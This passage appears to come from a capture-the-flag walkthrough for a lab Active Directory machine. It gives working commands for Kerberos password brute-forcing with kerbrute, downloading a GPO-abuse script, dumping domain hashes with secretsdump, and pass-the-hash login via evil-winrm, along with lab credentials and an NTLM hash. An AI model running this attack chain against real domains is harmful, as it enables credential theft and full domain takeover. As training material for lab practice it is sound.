 Use kerbrute for bruteforce:

```plaintext
sshpass -p'ThePlague61780' scp kerbrute ebelford@drip.htb:/home/ebelford
sshpass -p'ThePlague61780' scp rockyou2.txt ebelford@drip.htb:/home/ebelford
ssh ebelford@drip.htb
chmod +x kerbrute
./kerbrute bruteuser -d darkcorp.htb --dc 172.16.20.1 rockyou2.txt taylor.b.adm
# Password found: !QAZzaq1
```

## 12\. Privilege Escalation via GPO Abuse

Download PowerGPOAbuse script on attacker machine:

```plaintext
wget https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/refs/heads/master/PowerGPOAbuse.ps1
python3 -m http.server 4243
```

On DC-01, run PowerShell commands to escalate privileges (see original instructions).

## 13\. Dump Domain Administrator Hashes

```plaintext
impacket-secretsdump darkcorp/taylor.b.adm:'!QAZzaq1'@darkcorp.htb
```

Extract Administrator NTLM hash: `fcb3ca5a19a1ccf2d14c13e8b64cde0f`.

## 14\. Final Domain Administrator Access & Root Flag

```plaintext
evil-winrm -i dc-01.darkcorp.htb -u Administrator -H fcb3ca5a19a1ccf2d14c13e8b64cde0f
cd Desktop
type root.txt
# You will get Root flag
```

## Summary of Critical Commands

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756323823877/3e55a615-8ca4-4802-831f-07839684b54f.png align="center")
